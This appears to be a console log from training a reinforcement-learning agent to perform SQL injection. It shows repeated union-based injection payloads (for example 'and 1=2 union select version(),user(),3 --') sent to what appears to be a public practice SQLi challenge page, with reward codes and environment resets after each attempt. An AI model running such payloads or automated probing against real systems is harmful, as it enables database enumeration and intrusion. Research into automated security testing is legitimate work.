Server response is 3
 'union select 1,

  0%|          | 497/1000000 [2:55:29<1157:29:56,  4.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 498/1000000 [2:55:30<870:57:56,  3.14s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 499/1000000 [2:55:31<675:54:28,  2.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 500/1000000 [2:55:33<632:26:55,  2.28s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 501/1000000 [2:55:34<527:29:22,  1.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union s

  0%|          | 502/1000000 [2:55:43<1107:50:54,  3.99s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 503/1000000 [2:55:44<853:26:29,  3.07s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 

  0%|          | 504/1000000 [2:56:23<3873:57:40, 13.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 505/1000000 [2:56:24<2775:32:57, 10.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 506/1000000 [2:56:25<2008:36:47,  7.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 507/1000000 [2:56:25<1466:19:03,  5.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 508/1000000 [2:56:26<1087:26:26,  3.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3


  0%|          | 509/1000000 [2:57:18<5100:53:18, 18.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 510/1000000 [2:57:19<3645:18:10, 13.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.alt

  0%|          | 511/1000000 [2:57:50<5128:51:50, 18.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 512/1000000 [2:57:51<3666:06:06, 13.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 513/1000000 [2:57:52<2649:27:49,  9.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 514/1000000 [2:57:53<1934:47:28,  6.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 515/1000000 [2:57:54<1439:27:36,  5.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 516/1000000 [2:57:55<1081:33:54,  3.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4

  0%|          | 517/1000000 [2:58:03<1477:22:14,  5.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zi

  0%|          | 518/1000000 [2:58:32<3412:58:47, 12.29s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 519/1000000 [2:58:33<2471:14:05,  8.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 520/1000000 [2:58:34<1805:54:20,  6.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 521/1000000 [2:58:35<1344:01:02,  4.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'unio

  0%|          | 522/1000000 [2:59:33<5817:38:15, 20.95s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 523/1000000 [2:59:34<4153:14:10, 14.96s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 524/1000000 [2:59:35<2983:15:54, 10.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
h

  0%|          | 525/1000000 [2:59:59<4066:01:26, 14.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union se

  0%|          | 526/1000000 [3:01:45<11686:26:18, 42.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 527/1000000 [3:01:46<8257:03:57, 29.74s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 528/1000000 [3:01:47<5856:10:13, 21.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3

  0%|          | 529/1000000 [3:01:57<4953:40:43, 17.84s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 530/1000000 [3:01:58<3544:53:37, 12.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 531/1000000 [3:01:59<2558:22:22,  9.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error

  0%|          | 532/1000000 [3:02:52<6190:39:53, 22.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 533/1000000 [3:02:55<4569:56:36, 16.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 534/1000000 [3:02:56<3282:27:31, 11.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax e

  0%|          | 535/1000000 [3:03:09<3395:32:59, 12.23s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server respo

  0%|          | 536/1000000 [3:03:45<5383:21:39, 19.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 537/1000000 [3:03:46<3844:30:36, 13.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 538/1000000 [3:03:48<2851:38:41, 10.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 539/1000000 [3:03:49<2077:37:57,  7.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 540/1000000 [3:03:50<1535:22:15,  5.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 541/1000000 [3:03:51<1150:47:23,  4.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 542/1000000 [3:03:52<887:17:55,  3.20s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 543/1000000 [3:03:53<703:12:59,  2.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.alter

  0%|          | 544/1000000 [3:03:59<1041:32:36,  3.75s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Serv

  0%|          | 545/1000000 [3:06:24<12812:20:38, 46.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 546/1000000 [3:06:25<9044:15:11, 32.58s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 547/1000000 [3:06:26<6405:56:08, 23.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 548/1000000 [3:06:27<4566:10:36, 16.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 549/1000000 [3:06:28<3277:01:32, 11.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 550/1000000 [3:06:29<2375:14:00,  8.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 551/1000000 [3:06:30<1737:13:10,  6.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 552/1000000 [3:06:30<1249:19:22,  4.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 553/1000000 [3:06:31<950:14:30,  3.42s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 554/1000000 [3:06:32<747:11:29,  2.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'uni

  0%|          | 555/1000000 [3:08:24<9824:30:05, 35.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 556/1000000 [3:08:25<6953:50:28, 25.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 557/1000000 [3:08:26<4943:33:54, 17.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 558/1000000 [3:08:28<3620:29:01, 13.04s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 559/1000000 [3:08:29<2611:39:26,  9.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 560/1000000 [3:08:30<1901:53:48,  6.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 561/1000000 [3:08:31<1408:08:09,  5.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 562/1000000 [3:08:32<1076:39:51,  3.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 563/1000000 [3:08:33<826:48:46,  2.98s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server resp

  0%|          | 564/1000000 [3:08:50<2007:54:16,  7.23s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 565/1000000 [3:08:51<1487:17:56,  5.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
